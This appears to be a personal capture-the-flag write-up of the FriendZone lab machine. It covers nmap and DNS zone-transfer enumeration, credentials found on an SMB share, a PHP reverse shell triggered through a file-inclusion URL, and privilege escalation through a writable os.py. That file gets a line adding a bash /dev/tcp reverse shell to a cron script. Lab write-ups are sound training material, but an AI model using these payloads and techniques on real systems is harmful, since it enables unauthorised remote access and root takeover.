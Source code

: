 # What I learned in this box?
1. smb可以尝试上传reverse shell， 然后通过web触发哦，`不要将不同的服务割裂开看`
2. crontab 的配置文件还有可能在这个位置: `/var/spool/cron/crontabs`
3. 当python无法使用os的时候，可以通过写文件来rce，比如crontab 文件。因为open是buildin方法，不受外部库的限制。
## Information gathering
Target IP address: 10.10.10.123
### Nmap Scan Result

``` bash
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_http-server-header: Apache/2.4.29 (Ubuntu)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: 404 Not Found
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

### Service Enumerate
Port | Service | Version
-----|---------|--------
21 | ftp | vsftpd 3.0.3
22 | ssh | 7.6
53 | dns | 9.11.3
80 | http | apache httpd 2.4.29
139| netbios-smb | 3.x-4.x
443| https | apache httpd 2.4.29
445| netbios-smb | 4.7.6

#### DNS Enum
##### Zone transfer
```bash
 dig axfr @10.10.10.123 friendzone.red

<<>> DiG 9.18.4-2-Debian <<>> axfr @10.10.10.123 friendzone.red
; (1 server found)
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 151 msec
;; SERVER: 10.10.10.123#53(10.10.10.123) (TCP)
;; WHEN: Tue Jan 03 17:41:02 CST 2023
;; XFR size: 8 records (messages 1, bytes 289)
```

#### SMB Service

_List shared folder:_

```bash
smbclient --no-pass -L //10.10.10.123
```

find there are several shared folders.

```bash
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
Files           Disk      FriendZone Samba Server Files /etc/Files
general         Disk      FriendZone Samba Server Files
Development     Disk      FriendZone Samba Server Files
IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

Server               Comment
---------            -------

Workgroup            Master
---------            -------
WORKGROUP            FRIENDZONE
```

_connect general folder:_

find a creds.txt file within a credential for admin user.

```bash
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

#### Web enumerate

find several url and domain name:
![[Pasted image 20230103193213.png]]

### Password Crack
#### john

#### hydra


## Exploit

### Initial Foothold

_Login:_ 
https://administrator1.friendzone.red is an admin login panel. Login with the credential found in smb enumerate stage.

_upload:_
upload a php reverse shell through https://uploads.friendzone.red
not work
upload the reverse shell through smb to development folder
![[Pasted image 20230103193008.png]]

_access the php script uploaded_:

goto this url: https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/php-reverse-shell.php, and the reverse shell would be trigged.

#### Exploit method

upload reverse shell and trigged it.

#### Vulnerability Explanation

#### Exp code or link

[the php reverse shell code](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

#### Proof screen shot

![[Pasted image 20230103193524.png]]

### Lateral Movement
find the `friend` user's credential in a mysql conf file. Then use it to login as friend user.

#### Exploit method
plain text credential in the configuration file:
![[Pasted image 20230103193837.png]]
#### Exp code or link

#### Proof screen shot
![[Pasted image 20230103193906.png]]

### Privilege Escalation

#### Exploit method
_find a cron job with pspy64:
![[Pasted image 20230103201802.png]]

_python package injection_
reporter.py import os package. But the os.py in /usr/lib/python2.7 is writable by friend.

_modify the reporter.py file by insert code into os.py_
add this line into os.py, So it will be execute when the os package is imported.
```python
f = open('/opt/server_admin/reporter.py', 'a')
f.write('\nos.system("/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.14.13/6002 0>&1\'")')
```

_watch the reporter.py_
the reporter has been modified.
![[Pasted image 20230103202117.png]]

_get the reverse shell_
1. listen on 6002 port
2. get the shell when cron job run
#### Exp code or link

#### Proof screen shot
![[Pasted image 20230103202228.png]]